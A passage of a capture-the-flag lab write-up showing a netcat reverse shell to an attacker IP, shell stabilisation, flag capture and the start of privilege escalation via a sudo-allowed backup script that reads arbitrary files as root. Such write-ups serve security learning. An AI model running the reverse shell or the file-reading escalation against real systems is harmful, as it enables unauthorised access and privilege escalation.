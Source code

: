 We can run the reverse shell here
```
|$netcat -e /bin/bash 10.10.14.10 443  
```

Then we can get shell as `network_admin`
```
nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.13
python3 -c "import pty; pty.spawn('/bin/bash')"
network_admin@core01:~$ id
uid=1001(network_admin) gid=1001(network_admin) groups=1001(network_admin)  
```

We can get another shell here.
```
network_admin@core01:~$ hostname -I
10.13.37.13 172.22.1.1 172.22.43.1 dead:beef::250:56ff:feb9:f81b
network_admin@core01:~$ cat flag.txt
SYNACKTIV{L3ss_is_Th3_n3w_Sh3LL}
network_admin@core01:~$
```

# Privilege escalation
I will firstly check `sudo -l`
```
network_admin@core01:~$ sudo -l
Matching Defaults entries for network_admin on core01:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/bin\:/sbin\:/bin  

User network_admin may run the following commands on core01:
    (root) NOPASSWD: /usr/bin/admin_backup
network_admin@core01:~$ sudo /usr/bin/admin_backup
Usage:
  admin_backup.py [options] backup [--conf-file=<file>]
  admin_backup.py [options] restore
```

We can read its source code
```
BACKUP_CONF = "/root/backup.conf"
BACKUP = "/root/backup.zip"

def backup(confFile):
    print("[+] Reading configuration file.")
    f = open(confFile, 'r')
    print("[+] Making backup.")
    with ZipFile(BACKUP, 'w') as zipBackup:
        for line in f.readlines():
            line = line.strip()
            content = open(line, 'r').read()
            zipBackup.writestr(line, content)  
    zipBackup.close()
    f.close()

def backupRestore():
    # not implemented
    print("[+] Not implemented.")
```
